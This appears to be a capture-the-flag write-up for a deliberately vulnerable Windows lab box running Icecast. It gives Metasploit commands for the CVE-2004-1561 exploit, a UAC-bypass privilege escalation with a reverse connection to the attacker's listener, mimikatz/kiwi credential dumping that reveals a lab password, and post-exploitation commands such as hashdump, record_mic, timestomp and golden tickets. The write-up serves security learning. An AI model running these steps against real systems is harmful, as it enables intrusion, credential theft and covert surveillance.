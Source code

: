 # [cd ../](../index.md)
# Ice
> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

# Start
## Scanning
### Nmap
[nmaps](nmaps.txt)  
There is an interesting port open on 3389. This is Microsoft Remote Desktop (MSRDP).
And an other on 8000 (Icecast).  
And we found one [exploit](https://www.cvedetails.com/cve/CVE-2004-1561/) that we have to use.

## Exploiting
- Open Metasploit
- Select the correct exploit
- Use it :D

```
msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS 10.10.194.155
exploit
```
![meterpreter](https://media.giphy.com/media/XqXDNFZREKMBq/giphy.gif)
- We got a `meterpreter` shell
- We are user:`dark`

## Escalate privileges
- We are on an `x86` system
- Just run an exploit suggester like a *1337 ScR1P7 K1DD0*

```
run post/multi/recon/local_exploit_suggester
```

This takes some time to run so go for a snack :D  
Finally we got some exploits!  
![exploits](exploits.png)
- We need `exploit/windows/local/bypassuac_eventvwr`
- Now background the meterpreter shell with `background` command
- Select the exploit and set it up

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set LHOST 10.8.22.204
set LPORT 1337
exploit
```
- It could fail some times so just retry xd  
![session2](session2.png)  
- Migrate to an x64 process ( `spoolsv.exe` )

```
ps
migrate 1392
```
![migrated](migrated.png)  
- If we check `getuid` we are `NT AUTHORITY\SYSTEM` now!!  
W3 4r3 4dM1N5 N0W

## Mimikatz etc
```
load kiwi
```
Kiwi is the updated mimikatz.  
If we hit `help` we can see some new `Kiwi Commands`!
```
creds_all
```
![creds](creds.png)  
Dark's password is `Password01!`  

## Post exploitation
`hashdump` - dumps all of the password hashes  
`screenshare` - allows us to watch the remote user's desktop in real time  
`record_mic` - record from a microphone attached to the system  
`timestomp` - modify timestamps of files on the system  
`golden_ticket_create` - allowing us to authenticate anywhere with ease  
`run post/windows/manage/enable_rdp` - As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP)  
